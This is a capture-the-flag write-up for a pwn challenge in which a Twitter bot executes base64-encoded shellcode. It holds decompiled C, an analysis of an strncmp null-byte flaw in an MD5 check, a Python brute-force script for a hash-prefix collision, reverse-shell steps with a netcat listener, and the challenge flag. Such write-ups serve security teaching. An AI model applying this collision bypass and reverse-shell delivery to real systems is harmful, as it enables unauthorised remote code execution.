 # dont@me Writeup by Srdnlen
### Category: PWN. Solves: 3
### Description:
WORKING AGAIN. If you have any trouble, please contact admins on discord (awg). Same binary as before. Twitter api gets weird with tweets longer than 140 characters, so try to keep them shorter. (@name doesn't add to length) Also twitter api can be somewhat slow. Give it at least 10 min before giving up. Also don't use a private account, that just wont work.

tweet @JohnSmi31885382


### Writeup
We need to do a pwn challenge through a twitter bot. Interesting. Let's take a look at the program with a decompiler. This is my reverse with IDA.

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  printf("Poop.", argv, envp);
  if ( argc <= 1 )                              // argc needs to be > 1
    return -1;
  message_rax = grab_message((char *)argv[1]);  // gets word after @name (found this with the debugger)
  message = message_rax;
  shellcode_len = 0LL;
  message_len = strlen(message_rax);
  shellcode = (char *)base64_decode((__int64)message, message_len, &shellcode_len);// it must be base64
  if ( !shellcode )
    return -1;
  do_md5(shellcode, shellcode_len, (char *)shellcode_md5);// after decoding, turn it into md5. Remeber that it is not a string, it is a big int
  if ( !(unsigned int)validate_hash((const char *)shellcode_md5) )// validate_hash should return true
    return -1;
  v9 = shellcode;
  ((void (*)(void))shellcode)();                // run it as shellcode
  return 0;
}
```


What we can tell from the main is that our tweet should be like this: `@JohnSmi31885382 ${SHELLCODE}`

The program takes our shellcode and executes it. Seems pretty straightforward. However, we see that it calculates the md5 hash of our shellcode and does something with it. Ouch. Let's look at `validate_hash`.


```C
__int64 __fastcall validate_hash(const char *a1)
{
  //~SNIP~
  for ( index = 0; index <= 0; ++index )        // what the fuck
  {
    hash_shellcode((__int64)&s2, index);        // i will always be 0
    if ( !strncmp(a1, &s2, 16uLL) )             // if equal
      return 1LL;
  }
  return 0LL;
}
```

```C
unsigned __int64 __fastcall hash_shellcode(__int64 output, int index)
{
  //~SNIP~

  outputa = (char *)output;
  v6 = index;
  v2 = strlen((&valid_shellcodes)[index]);
  v9 = v2 >> 1;
  v10 = (&valid_shellcodes)[index];             // index will always be 0
  LODWORD(v2) = v2 >> 1;
  v11 = (int)v2 - 1LL;
  v3 = alloca(16 * (((int)v2 + 15LL) / 0x10uLL));
  input = (char *)&v5;
  for ( i = 0; i < v9; ++i )
  {
    __isoc99_sscanf(v10, "%2hhx", &input[i]); //Reads bytes from a hex string
    v10 += 2;
  }
  do_md5(input, v9, outputa);
  return __readfsqword(0x28u) ^ v13;
}
```

It gets the first hex string at `valid_shellcodes` and turns it into raw bytes. Then, it computes its MD5 and uses strncmp to compare it to the MD5 of our shellcode. 
Let's look at the MD5 of the first `valid_shellcode`...

```
printf "b801000000bf01000000488d3508000000ba0c0000000f05c348656c316f207730724c642e00" | xxd -r -p - | md5sum
79fc008108a92bcd7edb7cb63ea714b3
```

The third byte is NULL. strncmp is supposed to deal with C strings... that means it does not look at any of the bytes beyond \x00. If we provide a shellcode which has `79fc00` as the first 3 bytes of its MD5, strncmp will think it's the same MD5 as `valid_shellcode`. How can we do that? We can just add random bytes to the shellcode until the hash is good. As long as the actual instruction bytes are executed, it's ok to have garbage at the end. Here's a VERY dirty code to do it.


```Python
from hashlib import md5
import base64

valid_shells_md5 = ['79fc008108a92bcd7edb7cb63ea714b3']
valid_shell_stub = '79fc00'

shellcode = b'<INSERT SHELLCODE TO USE>'
garbage = b'aaaaaaaa'

while True:
    garbage = bytes(md5(garbage).hexdigest().encode('ascii'))

    x = md5(shellcode+garbage).hexdigest()
    #print(x)
    if (x[:6] == valid_shell_stub):
        print(shellcode+garbage)
        print(bytes(shellcode+garbage))
        print(base64.b64encode(bytes(shellcode+garbage)))
        print(x)
        exit()
```

Now, we have to think about which shellcode to use. At first I thought the bot would send you the STDOUT output to your Twitter, but I was wrong... I waited half an hour and nothing happened. We need to make a reverse shell. I used this one: http://shell-storm.org/shellcode/files/shellcode-907.php

Remember to set the IP variable to your public IP. Feed the shellcode to the collision script.
Open the port 4444 through your router's configuration and start listening: `nc -lvp 4444`.
Now, tweet at @JohnSmi31885382 with the base64'd, collision'd shellcode and you should get a connection to your netcat. Type ls to verify the shell.


## Flag
`WPI{b10kd_@nD_r33p0rtEd}`
